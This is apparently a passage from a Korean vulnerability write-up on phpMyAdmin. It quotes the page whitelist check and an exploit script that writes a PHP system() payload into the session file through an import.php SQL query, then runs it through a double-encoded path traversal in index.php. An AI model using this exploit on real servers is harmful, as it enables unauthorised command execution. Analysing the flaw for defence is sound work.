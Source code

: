                 return false;
            }
            //3.
            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            //4.
            if (in_array($_page, $whitelist)) {
                return true;
            }
                            [...]
    ------------------------------------------------------------------------
    class Core
    {
        public static $goto_whitelist = array(
                        [...]
            'db_sql.php',
                        [...]
        );
                        [...]
    }
    ```
 - excute query 부분에서 /import.php를 불러와 데이터 부분에 사용자가 사용할 페이로드(command)를 삽입하여 본문과 함께 POST 요청을 통해 sql쿼리 문을 실행하고 실행된 쿼리가 새로 생성된 사용자의 세션 파일에 포함되며 excute payload 부분에서 사용자의 PHP세션 파일을 불러오는 것으로 보인다.
    ```c
    if len(sys.argv) < 7:                      
    usage = """Usage: {} [ipaddr] [port] [path] [username] [password] [command]
        Example: {} 192.168.56.65 8080 /phpmyadmin username password whoami"""                   
    print(usage.format(sys.argv[0],sys.argv[0]))
    exit()
                        [...]
    # 3rd req: execute query
    url2 = url + "/import.php"
    # payload
    payload = '''select '<?php system("{}") ?>';'''.format(command)
    p = {'table':'', 'token': token, 'sql_query': payload }
    r = requests.post(url2, cookies = cookies, data = p)
    if r.status_code != 200:
    print("Query failed")
    exit()

    # 4th req: execute payload
    session_id = cookies.get_dict()['phpMyAdmin']
    url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)
    r = requests.get(url3, cookies = cookies)
    if r.status_code != 200:
    print("Exploit failed")
    exit()
